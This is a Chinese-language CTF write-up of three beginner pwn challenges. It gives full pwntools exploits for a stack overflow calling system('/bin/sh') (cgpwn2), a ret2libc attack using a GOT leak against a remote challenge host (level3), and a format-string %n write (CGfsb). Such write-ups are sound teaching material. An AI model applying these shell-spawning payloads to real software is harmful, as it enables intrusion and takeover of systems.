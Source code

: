 ```yaml
---
title: 「攻防世界」Pwn - cgpwn2|level3|CGfsb WriteUps
tags: ['CTF', 'Pwn', 'writeup', 'wp']
authors: [nova]
---
```

## cgpwn2 | level3 | CGfsb

### **碎碎念**

因为这半个月事情很多（摆邮major/APEX/期中考），加上新环境一直有问题，所以基本上没有什么关于CTF的内容:I但是其他的事情也基本没什么进展

马上又要打比赛了，想着临时抱佛jio冲一哈，先把这几个简单的栈相关的题目搞一下:<

原本想要每题都做一个详尽的WP水文章来着，但是好像比较基础就合在一起了:>

<!--truncate-->

### **cgpwn2**

直接拖进checksec/ida

![https://cdn.novanoir.moe/img/image-20211112104246870.png](https://cdn.novanoir.moe/img/image-20211112104246870.png)

![https://cdn.novanoir.moe/img/image-20211112105108027.png](https://cdn.novanoir.moe/img/image-20211112105108027.png)

![https://cdn.novanoir.moe/img/image-20211112112126099.png](https://cdn.novanoir.moe/img/image-20211112112126099.png)

这题意图就很明显了：在第一个gets中输入指令（"/bin/sh"），第二个gets中溢出然后调用system函数

> system + 返回地址 + 指令

于是找出偏移和地址，轻松写出exp>

```
from pwn import *

context(log_level='debug')

r = process('./53c24fc5522e4a8ea2d9ad0577196b2f')

r.recvuntil('your name\\n')
r.sendline(b'/bin/sh')

cmd_addr = 0x0804A080
system_addr = 0x08048420
payload = b'A'*0x2A + p32(system_addr) + p32(0) + p32(cmd_addr)

r.recvuntil('here:\\n')
r.sendline(payload)
r.interactive()
```

拿到flag`cyberpeace{53e372c0f3209a11ef4429e8e2546bbf}`

### **level3**

看题目介绍应该是ret2libc的题，这是我第一题libc泄露，所以着重讲讲

> 知识点：CTF-WIKI

下载下来是一个gz压缩文件，解压出来是一个so文件和elf文件

（结果我tar解压的时候不知道为什么名字不能自动补全，手搓了32位md5码的文件名了属于是）

按照惯例checksec看一下(checksec也不知道为什么软连接搞不上，我要吐力)

![https://cdn.novanoir.moe/img/image-20211112114145579.png](https://cdn.novanoir.moe/img/image-20211112114145579.png)

![https://cdn.novanoir.moe/img/image-20211112140131570.png](https://cdn.novanoir.moe/img/image-20211112140131570.png)

总之先上EXP:

```
from pwn import *

context(log_level="DEBUG")
# r = process("./level3")
r = remote("111.200.241.244", 53829)
elf = ELF("./level3")
libc = ELF("./libc_32.so.6")

write_plt = elf.plt["write"]
write_got = elf.got["write"]
func = elf.sym["vulnerable_function"]

payload1 = b'a'*0x88 + b'aaaa' + p32(write_plt) + p32(func) + p32(1) + p32(write_got) + p32(4)
r.recvuntil("Input:\\n")
r.sendline(payload1)

write_addr = u32(r.recv(4))

write_libc = libc.sym["write"]
system_libc = libc.sym["system"]
bin_sh_libc = next(libc.search(b"/bin/sh"))
print('write_addr: ', hex(write_addr))

libc_base = write_addr - write_libc
system_addr = libc_base + system_libc
bin_sh_addr = libc_base + bin_sh_libc

print('bin_sh_addr: ', hex(bin_sh_addr))
print('system_addr: ', hex(system_addr))

payload2 = b'a'*0x88 + b'aaaa' + p32(system_addr) + p32(0) + p32(bin_sh_addr)
r.recvuntil("Input:\\n")
r.send(payload2)
r.interactive()
```

这里有个很奇怪的点，我写exp的时候用的是Python3.10.0，但是本地调试的时候这个exploit是过不了的，换成py2又可以过

关键是我只更改了`bin_sh_libc`这里的代码，py2用的是`generator.next()`，而py3用的是`next(generator)`，但是结果是一样的。

我把最后的payload打印出来对比也没有任何区别（肉眼上）。但是Py3远程又是能过的^ ^，不知道什么高手情况。

#### **分析**

整个程序非常简单，也只有一个`vulnerable_function`可以利用，但是程序中并没有利用到system函数，这里就自然的引出了GOT表泄露。

得益于libc的延迟绑定机制，我们如果知道libc中某个函数的地址，就可以通过其在程序中的地址与libc中地址的差算出偏移。又由于libc.so动态链接库中的函数之间相对偏移是固定的，得到了偏移，再通过libc中我们想要的函数的地址，就可以确定其函数在程序当中的地址。

```
payload1 = b'a'*0x88 + b'aaaa' + p32(write_plt) + p32(func) + p32(1) + p32(write_got) + p32(4)
```

首先看payload1，先填充buf不多说，覆盖返回地址这里值得注意：

我们先将返回地址覆盖为write_plt，再将func作为write函数的返回地址，后面再填write的三个参数，这样做的话在write结束后就又会跳转会`vulnerable_function()`这里，便可以截到write的GOT地址

接下来就是算偏移和找地址，不多赘述。

此时程序又一次运行到了`read()`函数这里，那直接轻松覆盖一个system函数上去就好了:>

### **CGfsb**

![https://cdn.novanoir.moe/img/image-20211112141233440.png](https://cdn.novanoir.moe/img/image-20211112141233440.png)

一眼FormatString

需要使得`0x0804A068`这个地址的变量`pwnme`为8

先找到格式化字符串的参数在第几个

```
from pwn import *

context(log_level="DEBUG")
r = process("./e41a0f684d0e497f87bb309f91737e4d")

r.sendlineafter("your name:\\n", p32(0x0804A068))
r.recvuntil('please:\\n')
r.sendline(b'AAAA' + b'%x.'*0x10)
r.recvuntil("is:\\n")
print(r.recv())
```

![https://cdn.novanoir.moe/img/image-20211112142129570.png](https://cdn.novanoir.moe/img/image-20211112142129570.png)

可以看到41414141在第十个参数的位置，那么我们只需要把pwnme的地址写入，然后通过%n把8写入它就好了

最后的exp:

```
from pwn import *

context(log_level="DEBUG")
r = process("./e41a0f684d0e497f87bb309f91737e4d")

r.sendlineafter("your name:\\n", p32(0x0804A068))
r.recvuntil('please:\\n')
r.sendline(p32(0x0804A068) + b'AAAA' + b'%10$n')
r.interactive()
```

至此，宣告PWN的新手区AK（不容易啊🥵）